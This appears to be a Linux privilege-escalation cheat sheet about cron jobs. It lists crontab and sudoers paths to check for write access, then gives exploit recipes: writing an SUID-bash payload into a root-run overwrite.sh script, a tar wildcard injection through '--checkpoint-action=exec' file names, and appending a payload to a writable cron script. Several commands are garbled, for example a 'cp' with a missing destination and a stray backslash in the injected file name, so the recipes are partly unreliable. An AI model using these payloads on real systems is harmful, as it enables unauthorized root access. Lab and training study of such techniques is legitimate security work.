 
## Crontab 


   Cron jobs are programs or scripts which users can schedule to run at specific times or intervals. 
   Cron table files (crontabs) store the configuration for cron jobs. 
   The system-wide crontab is located at /etc/crontab.
    
    cat /etc/crontab
    locate overwrite.sh
          
          
          
   
### Cron jobs

Check if you have access with write permission on these files.   
Check inside the file, to find other paths with write permissions.   

```powershell
/etc/init.d
/etc/cron*
/etc/crontab
/etc/cron.allow
/etc/cron.d 
/etc/cron.deny
/etc/cron.daily
/etc/cron.hourly
/etc/cron.monthly
/etc/cron.weekly
/etc/sudoers
/etc/exports
/etc/anacrontab
/var/spool/cron
/var/spool/cron/crontabs/root

crontab -l
ls -alh /var/spool/cron;
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny*
```
          
          
          
          
   ## overwrite.sh Exploit
      
    touch /home/user/overwrite.sh
    echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
    chmod +x /home/user/overwrite.sh
    /tmp/bash -p




   ## compress.sh
   
    cat <PATH=compress.sh>
      
   ## OUTPUT
   
     #!/bin/sh
     cd /home/user
     tar czf /tmp/backup.tar.gz *
          
   ## Exploit wildcards
   
    echo 'cp /bin/bash/ /tmp/bash; chmod +s /tmp/bash' > asif.sh
    chmod 777 asif.sh
    touch /home/user/--checkpoint=1
    touch /home/user/--checkpoint-action=exec=sh\asif.sh
    /tmp//bash -p
        
        
        
        
        
   ## Change File permissions And Exploit
   
    locate overwrite.sh
    echo 'cp /bin/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh
    /tmp/bash -p
   
   
   
   
     
